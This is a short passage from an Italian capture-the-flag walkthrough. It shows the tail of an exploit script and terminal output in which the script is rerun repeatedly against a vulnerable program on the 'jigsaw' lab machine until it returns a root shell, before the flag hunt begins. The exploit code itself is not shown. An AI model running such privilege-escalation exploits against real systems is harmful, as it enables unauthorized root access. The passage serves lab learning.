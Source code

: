```
  print "Exploit failed"
```


Proviamo adesso a eseguire lo script sopra, sulla macchina target :

```
jigsaw@jigsaw:~$ ./exp.py 
Calling vulnerable program
Number of tries: 0
Exploit failed
Number of tries: 1
Exploit failed
Number of tries: 2
Exploit failed
Number of tries: 3
Exploit failed
Number of tries: 4
Exploit failed
Number of tries: 5
Exploit failed
Number of tries: 6
Exploit failed
Number of tries: 7
Exploit failed
Number of tries: 8
Exploit failed
Number of tries: 9
Exploit failed
Number of tries: 10
Exploit failed

...


Number of tries: 40
Exploit failed
Number of tries: 41
Exploit failed
Number of tries: 42
Exploit failed
Number of tries: 43
Exploit failed
Number of tries: 44
# id
uid=1000(jigsaw) gid=1000(jigsaw) euid=0(root) groups=0(root),1000(jigsaw)
# pwd
/home/jigsaw
# 
```

Bingo! Siamo dentro come root.
Troviamo la flag adesso.
